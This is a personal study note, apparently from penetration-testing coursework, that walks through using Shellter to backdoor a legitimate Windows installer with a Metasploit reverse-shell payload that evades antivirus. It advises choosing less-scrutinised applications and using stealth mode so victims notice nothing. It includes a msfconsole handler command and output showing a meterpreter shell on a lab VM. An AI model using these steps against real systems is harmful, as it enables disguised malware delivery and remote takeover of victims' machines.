


---
aliases:
  - shellter
---

# Automating Antivirus Evasion
One of the most popular tools for automating [antivirus](README.md) evasion is [Shellter](https://www.shellterproject.com/homepage/). It does this by creating *backdoors* into non-malicious executable files where malicious payload can be injected. Shellter takes a valid [PE](../../computers/windows/PE.md), does a *thorough analysis* of it and its execution paths, and then determines where in the execution *a malicious payload can be injected*.

Shellter uses *non-conventional* techniques to inject shellcode, which allows it to bypass detection by most AV products. Additionally, it uses the PE *[Import Table](../../computers/windows/PE.md#Import%20Table)* to find functions in the PE which are used for *memory allocation, transfer, and execution*. 
## Use
### Installation
(on Kali)
```bash
apt-cache search shellter
shellter - Dynamic shellcode injection tool and dynamic PE infector

sudo apt install shellter
...
```
 Shellter is designed to run on [Windows](../../computers/windows/README.md) operating systems, so you should also install [wine](https://www.winehq.org/) (which lets us run Win32 applications on POSIX operating systems). 
 ```bash
sudo apt install wine
...

sudo dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```
### Manual vs Auto Mode
When we run shellter in the command line, we get a new console (running under wine). Once it starts up, it asks whether we want to run in Auto or Manual mode. 
#### Manual Mode
In manual mode the tool launches the PE we give it and lets us manipulate it ourselves. In manual mode, we can customize the injection process.
#### Auto Mode
In auto mode, shellter does most of the injection work for us. 
### Choosing a PE
We need to select a target PE. This is the PE shellter is going to inject into and which we will deliver to the victim (once modified by shellter). [According to Shellter's author](https://www.shellterproject.com/an-important-tip-for-shellter-usage/), it's better to choose new and *less scrutinized applications*. For example, lets us the Windows 32bit installer for Spotify.

Once we give the path to our PE, shellter *makes a backup of it*, then it will analyze it for a suitable place it its execution to inject some malicious code.
### Stealth Mode
Once shellter has found a place, shellter asks if we want to enable *Stealth Mode*. In stealth mode, shellter will try to *restore the execution flow* of the PE after our payload has been executed. We should enable this *especially if a victim is executing the PE*. If it just crashes after our payload executes, that could raise some red flags.
### Payloads
Now shellter will ask us to choose a payload for the injection. You can either choose one of the *popular options* or you can choose to inject a *custom payload*. 

Let's select the first one. Then shellter will ask for the default options from Metasploit (`LHOST` and `LPORT`). We should set theses to our Kali attacking box [IP address](../../networking/OSI/3-network/IP-addresses.md) and a listening port.
### Testing
After setting all of the parameters, Shellter will inject our payload into the PE and then attempt to reach the payload's *first instruction*. During this phase, Shellter warns that if the PE *spawns a child process* before the injection point, then *our injected payload will be in the child process* and Shellter won't be able to tell if the test succeeded or not.

### Execution
Once our test succeeds, we should *configure the listener* on our attacking box. We can use [`msfconsole`](../../cybersecurity/TTPs/exploitation/tools/metasploit.md#`msfconsole`) for that:
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
```
Once that's up and listening, we can transfer our malicious PE to the victim system (in this case our Windows VM with the AV product we [tested against](testing-for-evasion.md)). Once it's there, run another quick scan with the Antivirus System (we tested against Avira). 

If our PE isn't detected, then we can run it by double clicking it in the VM. We should look out for two things:
1. Our reverse shell connection on our listener (`msfconsole`)
2. If the PE continues its regular, non-malicious execution after we get the reverse shell (since we told Shellter to use Stealth Mode and return the execution flow to the original PE after executing our payload). 
Our reverse shell output on the listener should look something like this:
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened (192.168.50.1:443 -> 192.168.50.62:52273)...

meterpreter > shell
Process 6832 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.739]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec\Desktop>whoami
whoami
client01\offsec
```

> [!Resources]
> - [Shellter](https://www.shellterproject.com/homepage/)
> - [wine](https://www.winehq.org/) 
> - [Shellter: An important tip for Shellter Usage](https://www.shellterproject.com/an-important-tip-for-shellter-usage/)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
